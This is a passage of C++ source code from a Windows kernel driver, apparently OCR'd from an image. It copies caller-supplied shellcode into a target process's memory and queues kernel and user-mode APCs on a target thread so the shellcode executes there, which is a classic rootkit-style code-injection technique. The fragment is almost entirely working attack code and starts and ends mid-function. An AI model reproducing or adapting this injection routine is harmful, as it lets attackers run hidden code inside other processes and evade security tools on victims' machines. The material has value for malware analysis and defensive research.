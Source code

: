 ```cpp

    if (!NT_SUCCESS(status))
        goto CleanUp;
    shellcodeSize = ShellcodeInfo->ShellcodeSize;

    status = KeWriteProcessMemory(ShellcodeInfo->Shellcode, TargetProcess, shellcodeAddress, shellcodeSize, UserMode);

    if (!NT_SUCCESS(status))
        goto CleanUp;

    // Create and execute the APCs.
    ShellcodeApc = (PKAPC)ExAllocatePoolWithTag(NonPagedPool, sizeof(KAPC), DRIVER_TAG);
    PrepareApc = (PKAPC)ExAllocatePoolWithTag(NonPagedPool, sizeof(KAPC), DRIVER_TAG);

    if (!ShellcodeApc || !PrepareApc) {
        status = STATUS_UNSUCCESSFUL;
        goto CleanUp;
    }

    // VOID PrepareApcCallback(PKAPC Apc, PKNORMAL_ROUTINE* NormalRoutine, PVOID* NormalContext, PVOID* SystemArgument1, PVOID* SystemArgument2) {
    // UNREFERENCED_PARAMETER(NormalRoutine);
    // UNREFERENCED_PARAMETER(NormalContext);
    // UNREFERENCED_PARAMETER(SystemArgument1);
    // UNREFERENCED_PARAMETER(SystemArgument2);

    // KeTestAlertThread(UserMode);
    // ExFreePoolWithTag(Apc, DRIVER_TAG);
    // }
    KeInitializeApc(PrepareApc, TargetThread, OriginalApcEnvironment, (PKKERNEL_ROUTINE)PrepareApcCallback, NULL, NULL, KernelMode, NULL);

    // VOID ApcInjectionCallback(PKAPC Apc, PKNORMAL_ROUTINE* NormalRoutine, PVOID* NormalContext, PVOID* SystemArgument1, PVOID* SystemArgument2) {
    // UNREFERENCED_PARAMETER(SystemArgument1);
    // UNREFERENCED_PARAMETER(SystemArgument2);
    // UNREFERENCED_PARAMETER(NormalContext);

    // if (PsIsThreadTerminating(PsGetCurrentThread()))
    //     *NormalRoutine = NULL;

    // ExFreePoolWithTag(Apc, DRIVER_TAG);
    // }
    KeInitializeApc(ShellcodeApc, TargetThread, OriginalApcEnvironment, (PKKERNEL_ROUTINE)ApcInjectionCallback, NULL, (PKNORMAL_ROUTINE)shellcodeAddress, UserMode, ShellcodeInfo->Parameter1);

    if (!KeInsertQueueApc(ShellcodeApc, ShellcodeInfo->Parameter2, ShellcodeInfo->Parameter3, FALSE)) {
        status = STATUS_UNSUCCESSFUL;
        goto CleanUp;
    }

    if (!KeInsertQueueApc(PrepareApc, NULL, NULL, FALSE)) {
        status = STATUS_UNSUCCESSFUL;
        goto CleanUp;
    }

    if (PsIsThreadTerminating(TargetThread))
        status = STATUS_THREAD_IS_TERMINATING;

CleanUp:
    if (!NT_SUCCESS(status)) {
```